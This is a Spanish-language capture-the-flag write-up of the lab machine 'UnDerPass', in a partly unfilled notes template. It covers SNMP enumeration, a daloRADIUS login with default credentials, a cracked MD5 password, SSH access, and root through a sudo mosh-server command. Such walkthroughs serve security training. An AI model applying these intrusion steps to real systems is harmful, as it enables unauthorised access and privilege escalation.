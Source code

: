 
<font color="#00b0f0">IP</font>: 10.10.11.48
<font color="#00b0f0">HOSTNAME</font>:
<font color="#00b0f0">S.O</font>:LINUX
<font color="#00b0f0">DIFICULTAD</font>:

WRITEUP


tras no ver nada interesante con el escaneo TCP ni el fuzzing de directorios, vemos a traves de un escaneo UDP que tiene el puerto 161 abierto


usando msf6 auxiliary(scanner/snmp/snmp_enum) >  obtenemos la siguiente informacion

```
[*] System information:

Host IP                       : 10.10.11.48
Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Contact                       : steve@underpass.htb
Location                      : Nevada, U.S.A. but not Vegas
Uptime snmp                   : 00:25:05.55
Uptime system                 : 00:24:55.01
System date                   : 2025-5-1 18:42:20.0

```


con esto sabemos que hay un server daloradius, por lo que buscando documentacion vemos las rutas tipicas del server

encontramos un login y se accede con las credenciales de admin por defecto administrator:radius

vemos la siguiente informacion de una base de datos alojada en localhost:3306

user :steve
pass: testing123
db name: radius

tambien vemos una lista de usuarios con una entrada, que corresponden al usuario svcMosh y a su hash MD5 412DD4759978ACFCC81DEAB01B382403

Si usamos crackstation podremos ver que la contraseña de svcMosh es underwaterfriends

con estas credenciales accedemos por ssh y obtenemos la flag de user

si ejecutamos sudo -l podemos ver que se puede ejecutar como sudo el comando mosh-server

bastaria con ejecutar el siguiente comando para obtener una shell como root

`svcMosh@underpass:~$  mosh --server="sudo /usr/bin/mosh-server" localhost
`





## <font color="#00b0f0">USERS</font>

| USER | PASSWORD | PERMISOS |
| ---- | -------- | -------- |
|      |          |          |
|      |          |          |


## <font color="#00b0f0">ENUMERACION</font>

Comenzamos enumerando con nmap usando el siguiente comando

```
sudo nmap 10.10.11.48 -Pn -T4 -sSCV -p- --open -oA nmap_underpass -vv
```


| Puerto | Servicio  | Version |
| ------ | --------- | ------- |
| 22     | open  ssh | 8.9     |
| 80     | Apache    | 2.4.52  |


Usamos gobuster para enumerar directorios por fuzzing con el siguente comando 

```
gobuster dir -u http://10.10.11.48 -r  -e  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 
```


con esto descubrimos varios directorios



## <font color="#00b0f0">SERVICIOS INTERESANTES</font>